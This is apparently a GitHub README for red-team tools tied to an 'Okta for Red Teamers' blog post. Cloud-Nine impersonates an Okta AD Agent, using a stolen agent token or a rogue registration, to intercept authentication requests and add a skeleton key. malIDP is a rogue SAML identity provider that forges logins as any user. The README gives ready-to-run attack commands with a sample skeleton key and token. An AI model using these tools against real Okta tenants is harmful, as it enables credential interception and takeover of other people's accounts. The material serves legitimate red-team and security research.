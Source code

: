 ## Info

This repo contains projects to support the "Okta for Red Teamers" blog post [here](https://trustedsec.com/blog/okta-for-red-teamers).

## Cloud-Nine

An Okta Agent tool which emulates an AD Agent, allows interception of authentication requests, and adding a skeleton key.

### Installation

```
python3 -m venv env
source ./env/bin/activate
pip install -r requirements.txt
```

### Usage

Two modes are supported:

1. Use an stolen AD Agent token to connect to Okta and intercept authentication requests:

```bash
python ./main.py --tenant-domain example.okta.com --skeleton-key WibbleWobble99 token --api-token 0023452Lllk2KqjLBvaxANWEgTd7bqjsxjo8aZj0wd --app-id 0oa7c027u2TcJxoki697 --agent-id a537cnm9ldwPILkqP697
```

2. Register a new AD Agent with Okta and intercept authentication requests:

> Note: You'll need an OAuth Response Code which you can get from:

```
https://example.okta.com/oauth2/authorize?redirect_uri=%2Foauth-response&response_type=code&client_id=cappT0Hfy97F1BoO1UTR&prompt=select_account
```

Then we can pass this as an arg to:

```bash
python ./main.py --tenant-domain example.okta.com --skeleton-key WibbleWobble99 oauth --machine-name DC01 --windows-domain lab.local --code OAUTH_CODE_HERE
```

## malIDP

A small (and very janky) SAML IDP which will sign SAML responses to authenticate as any user.

### Installation

```
python3 -m venv env
source ./env/bin/activate
pip install -r requirements.txt
```

### Usage

```bash
python ./main.py --cert ./public_cert.crt --key ./private.key --metadata ./metadata.xml --issuer 'https://www.legitidp.com/'
```

